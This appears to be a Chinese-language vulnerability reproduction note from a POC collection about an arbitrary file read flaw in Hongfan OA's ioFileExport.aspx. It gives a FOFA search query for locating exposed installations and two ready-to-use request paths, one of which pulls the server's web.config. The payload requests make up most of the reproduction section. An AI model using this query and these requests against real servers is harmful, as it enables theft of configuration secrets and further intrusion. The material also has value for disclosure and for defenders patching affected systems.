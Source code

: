 # 

# 红帆OA ioFileExport.aspx 任意文件读取漏洞

## 漏洞描述

红帆OA ioFileExport.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感信息

## 漏洞影响

```
红帆OA
```

## 网络测绘

```
app="红帆-ioffice"
```

## 漏洞复现

登录页面

![image-20220520142002215](./images/202205201420294.png)

验证POC, 读取web.config文件

```
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/web.config&filename=test.txt&ContentType=application/octet-stream
```

![image-20220520142019955](./images/202205201420011.png)

```
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/Login.aspx&filename=test.txt&ContentType=application/octet-stream
```

![image-20220520142034423](./images/202205201420478.png)
